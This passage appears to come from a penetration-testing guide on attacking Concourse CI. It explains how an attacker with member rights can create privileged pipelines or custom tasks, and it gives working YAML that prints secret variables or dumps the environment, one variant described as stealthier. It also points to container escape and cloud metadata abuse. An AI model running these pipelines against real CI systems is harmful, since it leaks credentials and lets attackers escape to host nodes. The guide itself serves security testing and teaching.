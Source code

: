 With these permissions you might be able to:

* **Steal the secrets** inside the **container**
* Try to **escape** to the node
* Enumerate/Abuse **cloud metadata** endpoint (from the pod and from the node, if possible)

#### Pipeline Creation/Modification

If you have enough privileges (**member role or more**) you will be able to **create/modify new pipelines.** Check this example:

```yaml
jobs:
- name: simple
  plan:
  - task: simple-task
    privileged: true
    config:
      # Tells Concourse which type of worker this task should run on
      platform: linux
      image_resource:
        type: registry-image
        source:
          repository: busybox # images are pulled from docker hub by default
      run:
        path: sh
        args:
        - -cx
        - |
          echo "$SUPER_SECRET"
          sleep 1000
      params:
        SUPER_SECRET: ((super.secret))
```

With the **modification/creation** of a new pipeline you will be able to:

* **Steal** the **secrets** (via echoing them out or getting inside the container and running `env`)
* **Escape** to the **node** (by giving you enough privileges - `privileged: true`)
* Enumerate/Abuse **cloud metadata** endpoint (from the pod and from the node)
* **Delete** created pipeline

#### Execute Custom Task

This is similar to the previous method but instead of modifying/creating a whole new pipeline you can **just execute a custom task** (which will probably be much more **stealthier**):

```yaml
# For more task_config options check https://concourse-ci.org/tasks.html
platform: linux
image_resource:
  type: registry-image
  source:
    repository: ubuntu
run:
  path: sh
  args:
  - -cx
  - |
    env
    sleep 1000
params:
  SUPER_SECRET: ((super.secret))
```
